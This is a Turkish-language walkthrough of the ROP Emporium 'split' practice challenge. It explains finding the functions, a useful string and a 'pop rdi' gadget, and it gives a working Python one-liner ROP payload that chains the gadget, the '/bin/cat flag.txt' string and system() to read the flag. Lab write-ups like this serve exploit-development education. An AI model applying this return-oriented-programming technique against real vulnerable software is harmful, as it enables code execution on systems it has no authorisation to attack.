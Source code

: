 # ROP Emporium `split` Writeup

![detail](img/detail.png)

x64 mimaride programımızı indirdikten sonra programımız hakkında bilgi edinelim

![checksec](img/checksec.png)

![main & pwnme](img/main_pwnme.png)

![usefulFunction](img/usefulFunc.png)

Sistemde `main` , `pwnme` ve `usefulFunction` isimli 3 tane fonksiyonumuz mevcut.

Bunun dışında programımızın içerisinde "/bin/cat flag.txt" komutunu çalıştırmamıza yardımcı olmak için bir `symbol` bulunmaktadır.

    readelf --symbols split | grep "useful"

![usefulString](img/usefulString.png)

O halde x64 mimaride ilk argumanı alan `rdi` registerı üzerine `/bin/cat flag.txt` yazısını içeren `usefulString` adresimizi yazdıktan sonra `system` çağrısını çağırarak komutumuzun çalışmasını sağlayacağız. Bunun için öncelikle `pop rdi` komutunu içeren bir gadget'a ihtiyacımız var. GDB üzerinde herhangi bir yere breakpoint koyup çalıştırdıktan sonra `ropsearch` komutu ile arayalım.

![pop rdi](img/pop_rdi.png)

Tam da istediğimiz gibi :) O halde bellek adresini doldurduktan sonra `gadget` adresimizi, daha sonra `usefulString` adresini yazacağız. Böylece komutumuz rdi üzerine yerleşecektir. Daha sonra `system` adresini girerek bu komutun çalışmasını sağlayacağız.

```bash

python2 -c "print 'A'*40 + '\x83\x08\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\xe0\x05\x40\x00\x00\x00\x00\x00'" | ./split

```

![flag](img/flag.png)

Ve flag dosyasını başarılı bir şekilde okumuş olduk...
